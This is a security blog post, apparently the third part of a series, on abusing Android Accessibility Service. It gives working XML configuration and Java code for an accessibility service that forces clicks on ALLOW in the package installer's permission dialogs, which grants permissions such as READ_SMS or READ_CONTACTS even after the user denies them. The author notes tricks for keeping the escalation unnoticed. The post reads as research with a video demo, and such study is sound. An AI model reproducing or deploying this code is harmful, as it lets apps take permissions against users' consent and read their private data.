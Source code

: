 ```yaml
---
layout: posts
title:  Attacking Android Accessibility Service (AAS) - Part III
date:   2020-05-05
categories: android
---
```


`~$ cat How_an_Android_app_could_escalate_its_privileges_Part3.txt`

For this part, I changed the way the app obtains more permissions, making it stealthier. The trick here is to explicitly ask for at least two permissions, let the user
choose for the first one, and force the click on the second one. If the device is fast enough, we cannot really see that a second window has spawned and has been immediately closed.

The only suspicious thing is that popups are numbered, and the user will only see clearly the first one, if there are only two. Actually, I tried with three permissions, but on my slow
emulator, only the second one was "skipped", which is clearly suspicious.

### Configuration

The Manifest remains the same, I still ask for **READ_SMS** and **READ_CONTACTS**. However, the configuration file is modified, because we don't need to listen
for events coming from our app or Settings, and we try to catch `click` events. Furthermore, I added the flag `flagReportViewIds`:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeViewClicked"
>	android:packageNames="com.google.android.packageinstaller"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>  
> ```

### Main activity

In the main activity, as usual, we try to detect if accessibility service is enabled. In this example, we only have to call `ActivityCompat.requestPermissions`
( `setContentView` doesn't need to be in the `else` statement actually)

> ```java
>@Override
>protected void onCreate(Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	String[] perms = getRequestedPermissions(this);
>	if (perms != null && perms.length != 0 && isAccessibilityServiceOn())
>		ActivityCompat.requestPermissions(this, perms, 1);
>	else
>		setContentView(R.layout.activity_main);
>}
> ```

and `getRequestedPermissions` returns permissions asked in the Manifest:

> ```java
>private String[] getRequestedPermissions(){
>	PackageInfo info = null;
>	try {
>		info = getPackageManager().getPackageInfo(getPackageName(), PackageManager.GET_PERMISSIONS);
>	} catch (PackageManager.NameNotFoundException e) {
>		e.printStackTrace();
>	}
>	return info == null ? null : info.requestedPermissions;
>}
> ```

Then, the routine `ActivityCompat.requestPermissions(this, perms, 1)` will show one popup for each permission (that's the reason why they are numbered). The first parameter
is the asking activity (this one), and the last integer is an identifier, useless here since we don't use `onRequestPermissionsResult`.

### The accessibility service

Once again, the code is simpler, because we don't need to browse through settings and click on certain items. The idea is very simple: for each permission,
the package manager will display a dialog box, with a short message, a picture, and two buttons: **ALLOW** and **DENY**. We try to capture the click on one of these two
buttons, and force the click on **ALLOW**. Then, this click will affect the next popup, and the next permission will be granted. Since we cannot ensure that the language
of the device is English, we use views' identifiers to know where to click, and which widget has been clicked.

The two interesting widgets have these ids:

> ```java
>private static final String DENY_BUTTON = "com.android.packageinstaller:id/permission_deny_button";
>private static final String ALLOW_BUTTON = "com.android.packageinstaller:id/permission_allow_button";
> ```

_That is the reason why I used the flag `flagReportViewIds`._

In `onAccessibilityEvent`, we don't need to filter, since there is only one registered type of event on one app. Once again, the view is recursively scanned,
and `true` is returned if the button has been clicked:

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	parseView(accessibilityEvent.getSource());
>}
>
>private boolean parseView(AccessibilityNodeInfo node){
>	if (node == null)
>		return false;
>	node.refresh();
>	for(int i = 0; i< node.getChildCount(); i++){
>		if (parseView(node.getChild(i)))
>			return true;
>	}
>	if (node.getText() != null){
>		if (getRootInActiveWindow() != null && node.getViewIdResourceName() != null &&
>			(node.getViewIdResourceName().equalsIgnoreCase(DENY_BUTTON) || node.getViewIdResourceName().equalsIgnoreCase(ALLOW_BUTTON))){
>				
>			List<AccessibilityNodeInfo> allow = getRootInActiveWindow().findAccessibilityNodeInfosByViewId(ALLOW_BUTTON);
>			if (allow != null && allow.size() != 0) {
>				allow.get(0).performAction(AccessibilityNodeInfo.ACTION_CLICK);
>			}
>		}
>	}
>	return false;
>}
> ```

**NOTE**: the line `node.refresh()` is required, see [here](https://stackoverflow.com/questions/36793154/accessibilityservice-not-returning-view-ids)

### So what ?

In the video, you can see that **READ_CONTACTS** has been granted, whereas **READ_SMS** has been explicitly denied by the user. Since my emulator is really slow,
we can see that a second window has spawned with the second permission. The idea is then to put first in the Manifest a "useless" permission, and the expected one.

Two things are quite interesting in this example:
* we don't care about the language of the device
* if the user doesn't pay attention to the message "1 of xxx" in the dialog box, and if the device is not too slow, the second window could be unnoticed. In the
previous examples, it was clearly visible that the app was trying to do bad things, because it was not fast enough. Here, we let the user decide, and it makes a
real difference.

Video:

[![video3_poc](/assets/res/android/video3.png)](https://youtu.be/vs057e_NE9U)
